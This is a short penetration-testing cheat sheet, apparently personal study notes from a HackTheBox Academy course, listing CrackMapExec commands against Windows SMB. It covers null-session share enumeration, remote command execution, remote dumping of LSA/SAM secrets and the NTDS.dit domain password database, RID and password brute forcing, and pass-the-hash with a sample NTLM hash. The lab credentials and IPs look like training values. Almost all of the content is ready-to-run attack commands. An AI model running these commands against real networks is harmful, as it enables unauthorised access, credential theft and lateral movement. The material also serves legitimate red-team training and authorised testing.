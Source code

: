 **OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 
# SMB
```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```
## Useful Flags
- `--continue-on-success`: To keep on bruteforcing after a successful login.
- `--local-auth`: If the target is a non-domain joined system.

## SMBExec
```shell-session
$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -x <COMMAND> --exec-method smbexec
```
>NOTE: If the `--exec-method` is not defined, CME will try to execute the `atexec` method by default
## Dump
### Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```
### Dump NTDS.dit
```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
### Logged-on Users
```shell-session
$ crackmapexec smb <CIDR-RAMGE> -u administrator -p <PASSWORD> --loggedon-users
```
## Bruteforce
### Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
### Bruteforce Username/Passwords
```shell-session
$ crackmapexec smb <IP> -u </path/to/username> -p </path/to/passwords>
```

## Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
